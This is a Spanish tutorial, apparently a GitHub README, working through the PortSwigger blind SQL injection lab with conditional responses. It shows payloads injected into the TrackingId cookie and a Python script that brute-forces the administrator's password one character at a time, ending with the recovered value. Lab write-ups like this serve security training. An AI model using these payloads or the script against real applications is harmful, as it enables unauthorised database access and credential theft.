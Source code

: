 
---

# Guía práctica: SQLi Blind — respuestas condicionales

---

## Laboratorio PortSwigger

Para ilustrar con ejemplos reales usaremos el laboratorio gratuito de [PortSwigger](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses):

`https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses`

Todas las pruebas que se muestran a continuación se realizaron contra la URL provista por ese laboratorio.

---

## Confirmación de la vulnerabilidad

**Resumen:** en este laboratorio la entrada vulnerable es la cookie `TrackingId`. Para confirmarlo interceptamos peticiones con Burp Suite y observamos el valor de la cookie en la cabecera `Cookie`. También se puede ver con DevTools (`Ctrl+Shift+I`).

**Paso práctico (comprobación rápida):**

1. Intercepta una petición con Burp (o abre DevTools).
    
2. Localiza la cabecera `Cookie: TrackingId=...`.
    
3. Modifica temporalmente el valor añadiendo una comilla simple (`'`) al final:  
    `TrackingId=G1KUuxbiLkvBBAT5'`
    
4. Reenvía la petición y compara la respuesta con la original. En este laboratorio al añadir `'` se observa un cambio sutil en el contenido (por ejemplo, desaparece el texto `Welcome back!`), lo que indica que la entrada está afectando a la consulta SQL y que existe un comportamiento condicional en la aplicación.
    

> Nota: la ausencia de un error explícito no descarta SQLi. En _blind SQLi_ la aplicación no devuelve un mensaje de error claro; en su lugar, devuelve respuestas distintas (o con tiempos distintos) según el resultado de una condición SQL.

**Evidencia visual:**

![BupSuite](./Imágenes/burp_1.png)

![web](./Imágenes/web_a.png)

Fíjese que al introducir  `'` en el campo vulnerable obtenemos el error (vemos que desaparece el mensaje de `Welcome back!`)

![web](./Imágenes/web_b.png)

Con lo que nos tenemos que quedar es que cuando la query es correcta vemos el `Welcome back!`, es decir, vemos la parte de `Conditional response` y cuando la query es errónea no vemos el `Welcome back!`. La parte de `Blind` (a ciegas) es porque la página no va a mostrar ningún tipo de dato en su respuesta, es decir, ahora introduciremos una query así  `' UNION SELECT 'test'-- -`  o también `' UNION SELECT NULL-- -`. En ambas veremos `Welcome back!` ya que la query es correcta, es decir, sí que hay una columna (lo comprobamos con `' ORDER BY 1-- -`), pero no vemos `test` ni obviamente `NULL` en la página. Esto es porque la SQLi es a ciegas, es decir, realmente tenemos una vía potencial de extraer datos de las columnas y tablas, pero para ello vamos a tener que ir jugando con diferentes querys para poder ir construyendo carácter a carácter cada dato de la base de datos. Esto lo podemos hacer confirmando manualmente valores como la longitud de la tabla X, por que letra empieza, etc. Pero también podemos automatizar con scripts el proceso entero o parte de él.


![BupSuite](./Imágenes/burp_2.png)

Confirmamos también que la query `' UNION SELECT schema_name FROM information_schema.schemata-- -` es una consulta válida. Pero como decíamos no vemos reflejada en la respuesta las bases de datos almacenadas. Para ello tendremos que usar querys que permitan extraer información por cada carácter válido.

![BupSuite](./Imágenes/burp_3.png)

Sabemos que en este laboratorio la tabla relevante es `users(username, password)` y nuestro objetivo es **recuperar la contraseña del usuario `administrator`**. Para ello vamos a usar comprobaciones booleanas simples que nos permitan inferir, carácter a carácter, el valor del campo `password`.

Antes de extraer datos, comprobamos que la aplicación responde de forma distinta según una condición booleana:

```sql
' AND 'a' = 'a'

' AND (SELECT 'a') = 'a'
```

Ambas expresiones evaluarán a TRUE. Si inyectamos cualquiera de ellas en el punto vulnerable y la respuesta del servidor mantiene el comportamiento “normal” (por ejemplo sigue mostrando un texto como Welcome back!), tenemos una señal fiable de que podemos utilizar **condiciones booleanas** para distinguir TRUE/FALSE.

![BupSuite](./Imágenes/burp_4.png)

![BupSuite](./Imágenes/burp_5.png)

![BrupSuite](./Imágenes/burp_8.png)

**Comprobación aplicada a la columna password**:

A partir de aquí planteamos una condición que compare la primera letra de la contraseña del usuario administrator con un carácter candidato. Si la comparación es verdadera la aplicación responderá como en el caso “normal”; si es falsa veremos un cambio observable.

Payload boolean-based (MySQL — primer carácter del password)

```sql
' AND (SELECT SUBSTRING(password, 1, 1) FROM users WHERE username = 'administrator' LIMIT 1) = 'a'-- -
```

Explicación: 

- SUBSTRING(password, 1, 1) obtiene el primer carácter del campo password.

- La subconsulta SELECT ... FROM users WHERE username = 'administrator' LIMIT 1 devuelve ese carácter para el usuario administrator.

- Comparamos el resultado con 'a'. Si la condición es TRUE la respuesta del servidor permanecerá igual; si es FALSE la respuesta cambiará (por ejemplo desaparecerá o cambiará un texto).

- Repetimos la prueba con otros caracteres ('b', 'c', '0', etc.) hasta identificar el carácter correcto.

- Para extraer la segunda letra usaríamos SUBSTRING(password, 2, 1), y así sucesivamente.


---

## Explotación

Como el campo que nos interesa obtener es el de contraseña, podemos aplicar este mismo principio para saber por que carácter empieza la contraseña del usuario administrator. Simplemente usamos la query de antes pero iterando por el campo `password,1,1`  

```sql
' and (select substring(password,1,1) from users where username='administrator') = '0'-- -
```

![BrupSuite](./Imágenes/burp_9.png)

Como tenemos una vía de extraer para cada carácter la contraseña, también tenemos una vía potencial de saber la longitud exacta de la contraseña. Usando el mismo principio y jugando con el parámetro `length(<valor>)`:

```sql
' and (select substring(username,1,1) from users where username='administrator' and length(password)=20) = 'a'-- -
```

Con esta query obtenemos una respuesta booleana de valor True al igualar la longitud del valor `password` del usuario llamado `administrator` ubicado en la tabla `users` de la base de datos en uso. La longitud resulta ser `20`. Con toda esta información podemos crear un script en python.

![BurpSuite](./Imágenes/burp_10.png)


---

## Script

```python
#!/usr/bin/env python3

from pwn import *
import requests, sys, signal, string

def def_handler(sig, frame):
    print(f"\n[!] Saliendo...\n")
    p1.failure("Ataque detenido")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

characters = string.ascii_lowercase + string.digits


p1 = log.progress("SQLi")


def makeSQLi():

    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    password = ""

    p2 = log.progress("Password")

    for position in range(1, 21):
        for character in characters:
            cookies = {
                'TrackingId': f"NPOvQ2mmdkPKkeJz' and (select substring(password,{position},1) from users where username='administrator') = '{character}'-- -",
                'session': "ZviMqR53YnFwdgn0XCuNVlgwfHtkl7jK"
            }

            p1.status(cookies["TrackingId"])

            r = requests.get("https://0ab900f804677dc9815b93e50088000e.web-security-academy.net/", cookies=cookies)

            if "Welcome back" in r.text:
                password += character
                p2.status(password)
                break

if __name__ == '__main__':
    makeSQLi()
```

Resultado:

```bash
[↑] Password: 612dsg72tl8gmicflnku
```

[^1]: 
